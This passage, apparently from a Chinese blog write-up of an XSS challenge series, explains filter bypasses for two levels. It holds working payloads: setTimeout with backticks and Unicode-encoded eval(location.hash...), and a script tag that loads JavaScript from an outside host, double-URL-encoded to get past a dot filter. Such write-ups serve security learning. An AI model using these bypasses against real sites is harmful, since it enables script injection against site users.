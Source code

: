 
作者称，这样是通过 `setTimeout` 以及用反引号代替 `()`， 同时采用 Unicode 编码绕过对 `()`和 `.` 的限制。

在这串代码中，`setTimeout()` 是属于 `window` 的方法，该方法用于 **在指定的毫秒数后调用函数或计算表达式** 。

这里缺省了时间的参数，相当于不需要等待，直接执行。

中间的 Unicode 编码的内容还是之前的 `eval(location.hash.slice(1))`，总体上思路和第一式方法二差不多。

# 独孤九剑-第三式

## 题目

![在这里插入图片描述](https://img-
blog.csdnimg.cn/3a4a8945b3db4d1786287edb50dd3a74.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

> **放开了`=` 的过滤，新增了 `&#\` 的过滤**

## 方法一

新增了 `&#\` 的过滤，这明显就是冲着 HTML 编码和 Unicode 编码来的。

恶意不小啊😅😅😅

尝试将之前的 Payload 经过二次编码，想看看行不行，结果都没弹出来。仔细想想突然发现作者把 `=` 的过滤给放开了！！！

那不就可以考虑一下：

    
    
    <script src="http://xcao.vip/xss/alert.js"></script>
    

题目对点 `.` 进行了过滤，那么 URL 编码一下：

    
    
    <script src="http://xcao%252evip/xss/alert%252ejs"></script>
    

这里有个需要注意的地方，这里第一次将 `.` 进行 URL 编码后得到 `%2e`，但是还不够，通过 GET
方式提交上去后，浏览器会自动帮我们解码一次，又变回来了，那样的话 `.` 还是会被过滤。

因此需要再将 `%` 进行 URL 编码，得到 `%252e`。这样浏览器解码 `%25` 成 `%`，不会再对 `%2e`
进行解码，就可以绕过后端的过滤了。

成功弹窗：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/0d4ad968f6d045939c3afe7bf65ca1c7.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
提交之后的 HTML 代码就是这样的：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/d7c043515ffe4658a2ca87f65af47bdd.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
完整 Payload：
